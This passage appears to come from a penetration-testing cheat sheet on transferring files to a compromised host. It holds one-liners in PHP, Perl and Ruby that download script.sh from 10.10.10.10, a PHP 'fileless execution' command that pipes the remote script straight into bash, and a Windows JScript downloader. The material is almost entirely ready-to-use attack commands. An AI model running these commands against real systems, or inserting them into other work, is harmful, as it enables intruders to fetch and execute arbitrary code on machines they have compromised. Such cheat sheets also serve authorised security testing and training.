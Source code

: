 {% tab title="PHP Download (2)" %}
{% code overflow="wrap" %}
```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://10.10.10.10/script.sh", "rb"); $flocal = fopen("script.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
{% endcode %}
{% endtab %}

{% tab title="PHP Fileless Execution" %}
{% code overflow="wrap" %}
```bash
php -r '$lines = @file("https://10.10.10.10/script.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="PERL" %}
{% code overflow="wrap" %}
```bash
perl -e 'use LWP::Simple; getstore("https://10.10.10.10/script.sh", "script.sh");'
```
{% endcode %}
{% endtab %}

{% tab title="Ruby" %}
{% code overflow="wrap" %}
```bash
ruby -e 'require "net/http"; File.write("script.sh", Net::HTTP.get(URI.parse("https://10.10.10.10/script.sh")))'
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Windows

{% tabs %}
{% tab title="1. JS -> Create Script" %}
```javascript
# create a file called `wget.js`
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
{% endtab %}
